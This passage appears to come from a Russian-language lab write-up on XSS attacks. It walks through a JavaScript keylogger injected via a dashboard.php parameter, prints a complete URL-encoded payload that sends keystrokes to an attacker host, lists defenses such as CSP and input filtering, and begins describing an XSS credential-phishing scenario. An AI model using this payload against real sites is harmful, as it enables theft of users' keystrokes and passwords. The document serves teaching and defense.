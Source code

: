 document.onkeypress – этот оператор назначает глобальный обработчик события нажатия клавиши, благодаря чему скрипт реагирует на каждое действие пользователя на странице. В теле обработчика оператор var key = e.key извлекает непосредственно символ, введённый пользователем, что обеспечивает точность собираемых данных без дополнительной логики. В строке console.log ("Нажата клавиша:" + key) осуществляется вывод информации в консоль браузера, что позволяет проверять корректность работы кейлоггера на этапе тестирования без визуального вмешательства в интерфейс пользователя. Основная логика передачи данных реализована через функцию fetch, которая формирует и отправляет HTTP POST-запрос к серверному приёмнику keylogger.php, передавая параметр key в формате application/x-www-form-urlencoded. Это позволяет оперативно отправлять перехваченные символы на сервер злоумышленника для последующего анализа и хранения в лог-файле.
Пользователю достаточно перейти по этой ссылке, чтобы вредоносный JavaScript исполнился в контексте dashboard.php, а все нажатия клавиш начали уходить на сервер злоумышленника

**Фрагмент кода зашифрованной URL**

```
http://192.168.0.69:2222/dashboard.php?payload=%3Cscript%3Edocument.onkeypress%3Dfunction(e)%7Bvar%20key%3De.key%3Bconsole.log(%22%D0%9D%D0%B0%D0%B6%D0%B0%D1%82%D0%B0%20%D0%BA%D0%BB%D0%B0%D0%B2%D0%B8%D1%88%D0%B0%3A%20%22%20%2Bkey)%3Bfetch(%27http%3A%2F%2F192.168.0.114%3A3333%2Fkeylogger.php%27%2C%7Bmethod%3A%27POST%27%2Cheaders%3A%7B%27Content-Type%27%3A%27application%2Fx-www-form-urlencoded%27%7D%2Cbody%3A%27key%3D%27%2BencodeURIComponent(key)%7D)%3B%7D%3B%3C%2Fscript%3E
```

### 🎥 Видео-демонстрация атаки
[Смотреть видео в Google Drive](https://drive.google.com/file/d/1A0Uh9WIpx9KFe4nZnPX7zDC-92cl0SQB/view?usp=sharing)

## 🛡 Защита
Защита от XSS-кейлоггера в инфраструктуре организации со стороны пользователя:
-	использовать расширения браузера для блокировки скриптов (NoScript, uBlock Origin) и запрещать выполнение непроверенного JavaScript;
-	не переходить по подозрительным ссылкам и тщательно проверять адреса (особенно длинные URL с незнакомыми параметрами);
-	при работе с чувствительными данными вводить их в окне «Инкогнито» или на защищённых устройствах без массовых расширений;
-	регулярно очищать кэш и куки браузера, чтобы удалить потенциально внедрённые скрипты.
Защита от XSS-кейлоггера в инфраструктуре организации со стороны администратора:
-	внедрить на стороне веб-приложения надёжную фильтрацию и экранирование всех входящих данных, особенно тех, что попадают в HTML;
-	применять механизм CSP с списком доверенных источников скриптов;
-	использовать автоматизированное сканирование кода и динамическое тестирование (DAST) для своевременного выявления XSS-уязвимостей 



## 2 🎭 Атака методом подстановки поддельного экземпляра оригинала (Phishing через XSS)

Фишинговая атака в данном сценарии реализуется через комбинацию социальной инженерии и XSS-инъекции. Пользователю демонстрируется поддельная форма входа, полностью копирующая оригинал. Злоумышленник внедряет JavaScript-скрипт, который загружает реальную страницу авторизации и изменяет параметры формы так, чтобы введённые логин и пароль отправлялись не на сервер организации, а на сервер атакующего.
